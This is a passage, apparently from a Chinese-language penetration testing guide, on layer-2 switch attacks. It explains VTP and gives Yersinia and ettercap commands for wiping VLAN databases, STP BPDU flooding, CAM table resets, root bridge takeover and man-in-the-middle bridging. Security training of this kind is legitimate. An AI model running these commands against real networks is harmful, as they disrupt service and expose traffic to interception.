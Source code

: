 * **VTP服务器：** 管理VLAN——创建、删除、修改。它向域成员广播VTP公告。
* **VTP客户端：** 接收VTP公告以同步其VLAN数据库。此角色被限制进行本地VLAN配置修改。
* **VTP透明：** 不参与VTP更新，但转发VTP公告。未受VTP攻击影响，保持修订号为零。

#### VTP Advertisement Types

* **摘要公告：** 每300秒由VTP服务器广播，携带重要的域信息。
* **子集公告：** 在VLAN配置更改后发送。
* **公告请求：** 由VTP客户端发出，请求摘要公告，通常是响应检测到更高配置修订号时。

VTP漏洞仅通过干道端口可被利用，因为VTP公告仅通过这些端口传播。在DTP攻击场景之后，可能会转向VTP。像Yersinia这样的工具可以促进VTP攻击，旨在清除VLAN数据库，有效地破坏网络。

注意：本讨论涉及VTP版本1（VTPv1）。
````bash
%% yersinia -G # Launch Yersinia in graphical mode ```
````
在Yersinia的图形模式中，选择删除所有VTP VLAN选项以清除VLAN数据库。

### STP攻击

**如果您无法在接口上捕获BPDU帧，那么您在STP攻击中成功的可能性不大。**

#### **STP BPDU DoS**

发送大量的BPDUs TCP（拓扑变化通知）或Conf（在创建拓扑时发送的BPDUs），交换机会过载并停止正常工作。
```bash
yersinia stp -attack 2
yersinia stp -attack 3
#Use -M to disable MAC spoofing
```
#### **STP TCP攻击**

当发送TCP时，交换机的CAM表将在15秒内被删除。然后，如果您持续发送这种数据包，CAM表将不断重启（或每15秒重启一次），当它重启时，交换机的行为就像一个集线器。
```bash
yersinia stp -attack 1 #Will send 1 TCP packet and the switch should restore the CAM in 15 seconds
yersinia stp -attack 0 #Will send 1 CONF packet, nothing else will happen
```
#### **STP Root Attack**

攻击者模拟交换机的行为，以成为网络的 STP 根。然后，更多的数据将通过他传输。当你连接到两个不同的交换机时，这一点很有趣。\
这是通过发送 BPDUs CONF 数据包来完成的，声称 **优先级** 值低于实际根交换机的实际优先级。
```bash
yersinia stp -attack 4 #Behaves like the root switch
yersinia stp -attack 5 #This will make the device behaves as a switch but will not be root
```
**如果攻击者连接到两个交换机，他可以成为新树的根，所有在这些交换机之间的流量将通过他**（将执行MITM攻击）。
```bash
yersinia stp -attack 6 #This will cause a DoS as the layer 2 packets wont be forwarded. You can use Ettercap to forward those packets "Sniff" --> "Bridged sniffing"
ettercap -T -i eth1 -B eth2 -q #Set a bridge between 2 interfaces to forwardpackages
```
### CDP 攻击

CISCO 发现协议 (CDP) 对于 CISCO 设备之间的通信至关重要，使它们能够 **相互识别并共享配置细节**。
